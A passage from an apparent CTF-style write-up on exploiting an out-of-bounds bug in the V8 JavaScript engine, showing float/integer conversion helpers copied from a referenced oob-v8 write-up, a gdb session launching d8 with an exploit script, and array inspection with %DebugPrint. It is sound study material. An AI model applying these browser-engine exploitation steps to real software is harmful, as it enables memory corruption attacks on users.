 [Faith’s writeup of oob-v8](https://faraz.faith/2019-12-13-starctf-
oob-v8-indepth/) provides a nice roadmap for exploitation here, and I’ll try
to call out where I diverge from it.

#### ftoi and itof

I’ll start my script with a couple of helper functions. Because my out of
bounds reads will be looking to return doubles (floats), I’ll want some code
to convert those back to hex values. Similarly, I’ll need a way to take an int
to a float to write. These functions come directly from the above post:

    
    
    /// Helper functions to convert between float and integer primitives
    var buf = new ArrayBuffer(8); // 8 byte array buffer
    var f64_buf = new Float64Array(buf);
    var u64_buf = new Uint32Array(buf);
    
    function ftoi(val) { // typeof(val) = float
        f64_buf[0] = val;
        return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
    }
    
    function itof(val) { // typeof(val) = BigInt
        u64_buf[0] = Number(val & 0xffffffffn);
        u64_buf[1] = Number(val >> 32n);
        return f64_buf[0];
    }
    

I’ll save those in my `exploit.js`.

Now that I’m going to be reading / writing across bounds, I’ll use the release
`d8`:

    
    
    df@buntu:~/v8$ gdb -q out.gn/x64.release/d8
    GEF for linux ready, type `gef' to start, `gef config' to configure
    80 commands loaded for GDB 9.2 using Python engine 3.8
    Reading symbols from out.gn/x64.release/d8...
    (No debugging symbols found in out.gn/x64.release/d8)
    gef➤  run --allow-natives-syntax --shell exploit.js 
    Starting program: /home/df/v8/out.gn/x64.release/d8 --allow-natives-syntax --shell exploit.js
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    [New Thread 0x7f4f99173700 (LWP 35638)]
    V8 version 8.5.0 (candidate)
    d8> 
    

I’ll create an array, `a` (`%DebugPrint` shows much less on the release `d8`):

    
    
    d8> var a = [1.1, 2.2];
    undefined
    d8> %DebugPrint(a);
    0x2b4108086155 <JSArray[2]>
    [1.1, 2.2]
    
